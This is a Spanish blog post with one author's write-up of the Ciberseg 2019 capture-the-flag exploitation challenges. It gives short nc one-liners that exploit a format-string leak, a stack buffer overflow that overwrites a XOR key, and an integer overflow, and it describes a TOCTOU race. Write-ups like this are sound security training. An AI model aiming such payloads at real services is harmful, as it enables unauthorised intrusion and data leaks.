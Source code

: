 ```yaml
---
layout: post
title:  "Ciberseg 2019: explotación"
date:	2019-01-27 11:27:51 +0100
author: foo
categories: es ctf ciberseg write-up exploiting
lang: es
ref: ciberseg-2019-exploiting
---
```



En este post voy a explicar mis soluciones a los retos del Ciberseg de 2019. En concreto,
este artículo se corresponde con los de la categoría de **explotación**.

El [Ciberseg](https://ciberseg.uah.es/) es un congreso que tiene lugar todos los años por
estas fechas en la Universidad de Alcalá de Henares. La verdad es que los años anteriores
siempre ha sido divertido, y este año no ha sido menos :) Además, el podio ha estado muy
reñido y hubo sorpresas de última hora :D (al final gané en la última hora,
literalmente, por apenas unos pocos puntitos).


En fin, estos son los retos y sus soluciones. Lamentablemente, estos retos eran todos
remotos; así que no dispongo de los recursos para poder montarse los retos y resolverlos
por vuestra cuenta.

-----------------------------------------------------------------------------------------

# 1.- Loro (100 puntos)

La descripción de este reto dice así:
```
Hemos contratado a un loro para que gestione las flags. Lo tenemos viviendo en el puerto
2323
```

Este reto consistía en un programa que repetía exactamente lo que se enviaba. El problema
es que no está bien escrito y no repite _exactamente_ lo que se le envía. Por ejemplo, si
se envía `%p` devuelve cosas como _(nil)_, _0x8485632_... Es decir, que es vulnerable a
la explotación por cadenas de formato (_format strings_).

Para conseguir la bandera, simplemente hay que ir sacando el contenido de la memoria
hasta conseguir la _flag_. Por ejemplo, me hice este script:
```sh
#!/bin/bash

for i in {1..20}
do
	printf "\n ---- %3d ---- \n" "$i"
	echo -e "AAAABBBB-%$i\$s\n" | nc ctf.alphasec.xyz 2323
done
```

Al intento diez u once aparece nuestra bandera: `flag{passwordseña_dude}`.

-----------------------------------------------------------------------------------------

# 2.- Xorizo (125pts)

La descripción de este reto dice:
```
Hicimos el programa definitivo para superar estructuras discretas, pero al poner la contraseña, no conseguimos que descifre el secreto. La contraseña es "estructurasdiscretasjeje", pero al introducirla nos saca algo incomprensible...

Este es el código:

void main(){

char pass[24] = "xxxxxxxxxxxxxxxxxxxxxxxx";
char x[10];

char flag[24] = ...;

char* res = malloc(24);

scanf("%s", x);
printf("%s\n", pass);

int i;
for(i = 0; i < 24; i++)
res = pass ^ flag;

printf("%s\n", res);


}


¿Nos echas una mano? Está corriendo en ctf.alphasec.xyz:2424``
```


Al conectarnos, nos pedía una contraseña y luego imprimía una cadena con cosas que
parecían basura. Sin embargo, si se ponen más de 10 caracteres, esta cadena que se
imprime cambia. Como tenemos el código, podemos comprobar que se produce un
_buffer overflow_:
{% highlight C linenos %}
void main ()
{
	char pass [24] = "xxxxxxxxxxxxxxxxxxxxxxxx";
	char x [10];

	char flag [24] = ...;

	char* res = malloc (24);

==>	scanf ("%s", x);	/* OVERFLOW! No se comprueba que quepan en X */
	printf ("%s\n", pass);

	int i;
	for (i = 0; i < 24; i++)
		res = pass ^ flag;

	printf ("%s\n", res);
}
{% endhighlight %}


Como se muestra en la línea marcada (**:10**), se copia lo que venga por pantalla sin
comprobar que quepan en la variable _x_, que sólo tiene espacio para 10 Bytes (9
caracteres más el delimitador de fin de cadena, _0x00_). Una vez hemos rebasado la
variable _x_, podemos sobrescribir el contenido de _pass_.

Como luego se hace una XOR entre la variable _pass_ y la _flag_, podemos manipular los
valores para sacar el valor original de la bandera. Pero... ¿cuáles son los valores
apropiados para _pass_?

Deducimos que el valor de _pass_ se sacó calculando <img src="https://latex.codecogs.com/svg.latex?\fn_cm%20flag%20\oplus%20pass" class="inline-math" alt="flag \oplus pass">.
Sabiendo esto, nos podemos basar en que <img src="https://latex.codecogs.com/svg.latex?\fn_cm%20\left(%20flag%20\oplus%20pass%20\right)%20\oplus%20pass%20=%20flag" class="inline-math" alt="\left( flag \oplus pass \right) \oplus pass = flag">
para darle a _pass_ el valor `estructurasdiscretasjeje` y nos sacaría el valor original de _flag_.

Juntándolo todo, nuestro _exploit_ sería algo como esto:
```sh
printf "0123456789estructurasdiscretasjeje\n" | nc ctf.alphasec.xyz 2424
```

Y sacamos la _flag_: `flag{lohacehastaunperro}`

-----------------------------------------------------------------------------------------

# 3.- Numerao, numerao... (150pts)

La descripción de este reto dice:
```
¡Viva la numeración!

En ctf.alphasec.xyz:2525 tenemos un sistema que sólo acepta a los números positivos, pero
sobre todo le tiene tirria a los ceros. Si tras operar con las entradas obtuviese un 0...
No queremos imaginarnos qué resultado catástrofico podría tener.
```

El servicio corriendo en el puerto 2525 pide tres números y luego devuelve su suma.
Claramente, en este reto la intención es forzar un desbordamiento del tipo de dato para
que los números sean negativos. En concreto, se trata de un _int overflow_: si ponemos un
número mayor a <img src="https://latex.codecogs.com/svg.latex?\fn_cm%20\frac%20{2^{32}}{2}%20-%201" class="inline-math" alt="\fn_cm \frac {2^{32}}{2} - 1">
podemos jugar con los tres operandos hasta obtener 0.

Al final los valores que usé fueron **2147483647**, **2147483647** y **2**:
```sh
echo -e "2147483647\n2147483647\n2" | nc ctf.alphasec.xyz 2525
```

Cuando conseguimos que la suma sea cero, nos devuelve la _flag_: `flag{pavoreal_uuu}`.


-----------------------------------------------------------------------------------------

# 4.- Corre Chicote (200pts)

Este fue el único reto que no conseguí terminar; pero se trataba de explotar la condición
de carrera TOCTOU (_Time Of Check - Time Of Use_). Os dejo por aquí
[el _gist_ de @KaoRz](https://gist.github.com/KaoRz/44ed827c258054577fc59cd70a9f381d),
que sí consiguió sacarlo.

El código es bastante sencillo de entender: básicamente hay que acceder (por HTTP) a los
recursos `/verify` y `/read` de manera simultánea hasta conseguir leer la bandera.

-----------------------------------------------------------------------------------------

Y ya está. Estos retos eran más cortitos que los de criptología.

Siempre me lo paso bien con los retos del Ciberseg, y este año no ha sido menos. Espero
poder competir el año que viene, que seguro que se superan otra vez.

También quiero dar mi enhorabuena a los organizadores por todo su esfuerzo y su
creatividad para crear retos fuera de lo común :D
